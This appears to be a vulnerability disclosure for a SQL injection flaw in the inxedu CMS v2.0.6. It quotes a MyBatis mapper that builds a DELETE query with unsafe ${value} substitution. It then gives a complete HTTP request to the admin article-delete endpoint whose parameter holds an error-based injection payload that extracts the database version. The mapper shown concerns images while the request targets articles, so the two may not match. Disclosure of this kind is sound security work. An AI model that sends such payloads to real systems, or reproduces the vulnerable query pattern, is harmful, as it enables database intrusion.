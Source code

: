 # inxedu through 2018-12-24 has a SQL Injection vulnerability
### Vulnerability Type :SQL Injection

### Vendor Homepage: https://www.inxedu.com/
### Software Link:http://down.admin5.com/jsp/132874.html

### Recurring environment:
CMS v2.0.6
JDK 1.8
Tomcat 7
Mysql 5.5
maven 3.6.3
IntelliJ IDEA 2018

### Vulnerability Description AND recurrence:
1、the vulnerability code location
/inxedu/demo_inxedu_open/src/main/resources/mybatis/inxedu/website/WebsiteImagesMapper.xml

Here use '$', so it is vulnerable to SQL injection.
```
<!-- 删除广告图片 -->
<delete id="deleteImages" parameterType="java.lang.String">
  DELETE FROM EDU_WEBSITE_IMAGES WHERE IMAGE_ID IN(${value})
</delete>

```


```
POST /admin/article/delete HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 174
Origin: http://127.0.0.1:8080
Connection: close
Referer: http://127.0.0.1:8080/admin/article/showlist
Cookie: JSESSIONID=F36620C2B7BCC31C241FFC3EA9C544FF; inxedulogin_sys_user_=inxedulogin_sys_user_1
Upgrade-Insecure-Requests: 1

articelId=333 AND (SELECT 9875 FROM(SELECT COUNT(*),CONCAT(0x7178766b71,(SELECT (ELT(9875=9875,1))),version(),FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

```



![image-20201207175510503](https://gitee.com/godzeo/blogimg/raw/master/img/20201207175516.png)






